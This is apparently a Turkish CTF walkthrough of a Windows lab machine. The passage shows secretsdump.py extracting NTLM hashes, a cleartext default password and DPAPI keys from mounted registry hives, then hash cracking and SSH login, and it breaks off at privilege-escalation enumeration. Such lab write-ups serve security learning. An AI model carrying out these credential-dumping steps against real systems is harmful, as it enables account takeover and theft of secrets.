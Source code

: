 
## Shell as l4mpje

### Dump Hashes From Registry

Dosya sistemine tam erişim sayesinde registry dosyalarına da erişebiliyorum. Bu dosyalar sistem çalışırken kilitlenebilir, ancak takılı bir sürücüde böyle bir sorun yaşamayacağım. Registry hives'ın depolandığı config dizininde, şifre hash'lerini dökmek için secretsdump.py kullanacağım:

```
root@kali:/mnt2/Windows/System32/config# secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:e4487d0421e6611a364a5028467e053c:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DefaultPassword 
(Unknown User):bureaulampje
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x32764bdcb45f472159af59f1dc287fd1920016a6
dpapi_userkey:0xd2e02883757da99914e3138496705b223e9d03dd
[*] Cleaning up... 
```

Ayrıca secretsdump.py dosyasının bilinmeyen bir kullanıcı için “==bureaulampje==” şeklinde bir varsayılan parola (ya da otomatik uzatma parolası) belirlediğini de fark ettim.

### Crack Hash

NTLM hash'lerinin crackstation'a gönderilmesi, l4mpje hesabı için aynı parolayı döndürür:

![Pasted image 20250208011923.png](/img/user/resimler/Pasted%20image%2020250208011923.png)


### SSH

Bir Windows kutusunda ssh görmek biraz sıra dışı, ama bu onu kullanmak için iyi bir şans gibi görünüyor. l4mpje olarak ssh yapabiliyorum:

![Pasted image 20250208012051.png](/img/user/resimler/Pasted%20image%2020250208012051.png)


## Privesc to administrator

### Enumeration

Host üzerinde yüklü programlara bakıldığında, mRemoteNG ilginç olarak göze çarpmaktadır:
